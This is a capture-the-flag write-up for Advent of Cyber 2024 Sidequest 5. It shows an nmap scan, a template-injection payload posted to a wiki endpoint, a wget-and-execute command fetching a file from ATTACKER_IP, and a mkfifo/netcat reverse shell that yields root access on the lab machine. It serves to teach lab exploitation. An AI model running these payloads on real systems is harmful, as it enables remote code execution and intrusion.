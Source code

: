 # T5: An Avalanche of Web Apps

This is a writeup for Advent of Cyber 2024 Sidequest 5.



Once you have the keycard, booted the machine and unlocked the firewall on port 21337 using the provided password, nmap to discover services on the machine.

```sh
─$ nmap -sV $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-04 20:17 EST
Nmap scan report for npm-registry.bestfestivalcompany.thm (10.10.185.28)
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain  dnsmasq 2.90
80/tcp   open  http    Apache httpd 2.4.58
3000/tcp open  http    Node.js Express framework
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.09 seconds
```

```
└─$ cat script.js        
const formData = new URLSearchParams({
  title: "My New Wiki",
  markdownContent: `{{ ''.constructor.constructor('require("child_process").exec("wget ATTACKER_IP$/c -O /tmp/c && chmod 777 /tmp/c && /tmp/c")')() }}`
});

fetch('/wiki', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: formData.toString(),
})
```

```
└─$ cat c   
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP$ 4444 >/tmp/f
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
└─$ nc -nlvp 4444                                                                                                       
```

```
/ # whoami
root
/ # cd /
/ # ls
app
bin
data
dev
etc
flag-a3877c28657833933e47fcdd9d14903f.txt
home
...
/ # cat flag-a3877c28657833933e47fcdd9d14903f.txt
THM{REDACTED}

```

